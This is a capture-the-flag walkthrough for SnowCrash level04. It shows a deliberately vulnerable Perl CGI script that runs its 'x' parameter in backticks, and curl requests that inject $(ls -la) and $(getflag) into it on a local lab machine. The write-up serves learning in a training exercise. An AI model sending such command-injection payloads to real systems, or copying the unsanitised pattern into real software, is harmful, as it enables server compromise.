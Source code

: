 ```yaml
---
title: SnowCrash level04 - Walkthrough 👾 
tags:
  - ctf
  - cgi
  - perl
  - exploit
  - command-injection
  - web
categories:
  - ctfs
  - 42project
date: 2024-05-18 14:37:32
---
```


![snowcrash](/images/snowcrash.png)

## Introduction

In level 04, we encountered a Perl CGI script (`level04.pl`) vulnerable to command injection. By manipulating the input parameter, we were able to execute arbitrary commands on the server.

### Perl CGI Code

```perl
level04@SnowCrash:~$ cat level04.pl 
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
    $y = $_[0];
    print `echo $y 2>&1`;
}
x(param("x"));
```

### Vulnerability

The Perl script listens on port 4747 and accepts an "x" parameter via HTTP GET requests. It then directly echoes the parameter value without proper sanitization, leading to command injection.

### Exploitation

1. **Testing the Script**
   We tested the script by providing simple input:
   ```sh
   curl -d x="test" http://127.0.0.1:4747
   ```
2. Result: test

    Exploiting Command Injection
    We injected commands to list files in the directory:
    ```shell
    curl -d x="\$(ls -la)" http://127.0.0.1:4747
    ```
    Result: Directory listing displayed.
3. Obtaining the Flag
    Finally, we executed getflag to retrieve the flag:
    ```shell
    curl -d x="\$(getflag)" http://127.0.0.1:4747
    ```

# Conclusion

By exploiting the command injection vulnerability in the Perl CGI script, we successfully executed arbitrary commands on the system, ultimately obtaining the flag for level 04.
